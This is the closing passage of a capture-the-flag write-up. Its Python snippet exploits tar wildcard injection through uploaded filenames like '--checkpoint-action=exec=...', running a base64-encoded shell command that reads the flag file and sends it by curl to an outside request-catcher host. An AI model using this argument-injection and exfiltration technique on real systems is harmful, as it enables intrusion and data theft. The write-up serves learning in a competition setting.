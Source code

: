 ```python
  
  cmd = b'ls /'  # filename is: /flag_89bb6db3a579141b2cd5c7d01fedf863
  cmd = b'cat /flag_89bb6db3a579141b2cd5c7d01fedf863'
  payload = b'curl -X POST -d "$('
  payload += cmd
  payload += b')" https://happi.requestcatcher.com/test'

  b64_payload = base64.b64encode(payload).decode().strip()
  exploit = f'echo {b64_payload} | base64 -d | sh'

  x.upload(filename="--checkpoint=1", data="")
  x.upload(filename=f'--checkpoint-action=exec={exploit}', data="")
  x.upload(filename="dummy", data="")
  _ = x.download()

```


Thanks you for reading, i want to extend a huge thank to the CTF organizers for putting together this nice event.

Happi
